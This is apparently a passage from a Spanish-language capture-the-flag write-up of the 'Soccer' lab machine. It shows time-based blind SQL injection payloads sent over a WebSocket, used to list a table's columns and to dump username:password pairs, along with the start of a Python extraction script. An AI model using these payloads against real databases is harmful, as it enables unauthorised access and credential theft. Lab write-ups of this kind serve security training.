Después de un buen rato, obtenemos el siguiente resultado:

```bash
python3 tables.py 
[▇] SQLI: {"id":"1 or if(substr((select group_concat(column_name) from information_schema.columns where table_name='accounts'),99,1)='m',sleep(2),1)"}
[█] Columns: user,host,current_connections,total_connections,max_session_controlled_memory,max_session_total_memory,id,email,username,password
```

Las columnas encontradas son:

* user
* host
* current_connections
* total_connections
* max_session_controlled_memory
* max_session_total_memory
* id
* email
* username
* password

Ya para finalizar, podemos intentar volcar la información contenida en las columnas ***username*** y ***password***.

### Usuarios y contraseñas


Por último, ***dumpearemos*** la información de las columnas *username* y *password*:

```python
"{"id":"1 or if(ord(substr((select group_concat(username,0x3a,password) from accounts),{position},1))=ord(\'{letter}\'),sleep(4),1)}"
```

***group_concat(username,0x3a,password)*** sirve para concatenar el usuario y la contraseña separados por dos puntos (0x3a). Como la base de datos actual es *soccer_db* podemos especificar la tabla directamente sin tener que poder *soccer_db.accounts*. Además, se ha utilizado la directiva ***ord*** para diferenciar entre mayúsculas y minúsculas, ya que MySQL es *case insensitive* y podríamos tener problemas al obtener la información deseada.


```python
import asyncio
import websockets
import signal,sys,string,time
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+C 
signal.signal(signal.SIGINT,def_handler)

#Variables globales
letters = string.printable
burp = {'http':'http://127.0.0.1:8080'}
info = ""
let = ""

async def send_request(request):
    async with websockets.connect('ws://soc-player.soccer.htb:9091/') as websocket:
        await websocket.send(request)
        inicio = time.time()
        response = await websocket.recv()
        fin = time.time()
        response = False
```